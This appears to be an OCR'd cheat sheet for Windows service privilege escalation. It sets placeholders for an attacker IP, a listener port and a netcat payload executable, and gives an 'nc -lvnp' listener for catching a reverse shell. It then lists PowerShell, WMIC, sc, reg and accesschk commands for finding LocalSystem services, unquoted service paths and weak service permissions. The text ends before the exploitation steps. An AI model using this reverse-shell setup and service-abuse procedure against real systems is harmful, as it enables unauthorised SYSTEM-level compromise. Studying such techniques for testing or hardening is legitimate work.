 Replace placeholders before running:
- <SERVICE> = vulnerable service name (e.g., Spooler)
- <ATTACKER_IP> = your IP
- <LPORT> = your listener port (e.g., 4444)
- <PAYLOAD_EXE> = your payload path (e.g., C:\Users\Public\nc64.exe)
- <TARGET_EXE> = service binary path (from PathName/ImagePath)
- <TARGET_DIR> = directory containing the service binary

Listener (on attacker):
```
nc -lvnp <LPORT>
```

1) Enumerate services and identify candidates

- All services with details (PowerShell):
```
powershell -nop -c "Get-CimInstance Win32_Service | Select-Object Name,StartName,State,StartMode,PathName | Format-Table -AutoSize"
```

- High-value: running as LocalSystem:
```
powershell -nop -c "Get-CimInstance Win32_Service | Where-Object {$_.StartName -match 'LocalSystem'} | Select Name,State,PathName | ft -a"
```

- View one service’s config:
```
sc qc <SERVICE>
reg query "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ImagePath
reg query "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ObjectName
```

2) Find unquoted service paths (spaces, no quotes)

- PowerShell filter (reliable):
```
powershell -nop -c "Get-WmiObject Win32_Service | Where-Object { $_.PathName -and $_.PathName -notmatch '\"' -and $_.PathName -match ' ' } | Select-Object Name,StartName,PathName | ft -a"
```

- WMIC quick view (manual inspection):
```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"
```

3) Check service permissions (can we change config?)

- With Sysinternals accesschk (x64):
```
accesschk64.exe -uwcqv "Authenticated Users" *
accesschk64.exe -uwcqv "Users" *
```
Look for entries indicating SERVICE_CHANGE_CONFIG or SERVICE_ALL_ACCESS on <SERVICE>.

- Show SDDL (manual parsing):
```
sc sdshow <SERVICE>
```
